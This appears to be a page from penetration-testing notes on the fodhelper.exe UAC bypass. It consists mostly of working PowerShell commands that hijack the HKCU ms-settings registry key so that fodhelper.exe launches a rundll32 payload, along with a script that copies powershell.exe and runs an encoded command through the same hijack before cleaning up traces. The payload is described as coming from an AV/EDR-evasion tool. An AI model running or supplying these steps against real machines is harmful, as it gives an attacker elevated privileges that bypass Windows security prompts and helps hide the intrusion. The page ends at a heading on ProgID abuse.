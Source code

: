 


## fodhelper.exe

* [https://gist.github.com/netbiosX/a114f8822eb20b115e33db55deee6692](https://gist.github.com/netbiosX/a114f8822eb20b115e33db55deee6692)

Create and set registry values (the payload is generated with [`charlotte.py`](/pentest/infrastructure/ad/av-edr-evasion/README.md#charlotte)):

```
PS > New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
PS > New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
PS > Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value "rundll32 C:\Windows\System32\spool\drivers\color\met.dll, SUJIzDKv" -Force
```

Trigger `fodhelper.exe`:

```
PS > Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
```

Clean up:

```
PS > Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
```

Another way to do it with a script (hijacking PowerShell executable):

{% code title="fod.ps1" %}
```powershell
function Fod {
    $cmd = "C:\Windows\Tasks\foo.exe -enc <BASE64_CMD>"
    
    copy C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe C:\Windows\Tasks\foo.exe
    Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force -ErrorAction SilentlyContinue
    
    New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
    New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
    Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value $cmd -Force
    
    Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
    Start-Sleep -s 3
    
    Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force -ErrorAction SilentlyContinue
}
```
{% endcode %}

The same thing with **ProgID** [abuse](https://v3ded.github.io/redteam/utilizing-programmatic-identifiers-progids-for-uac-bypasses):
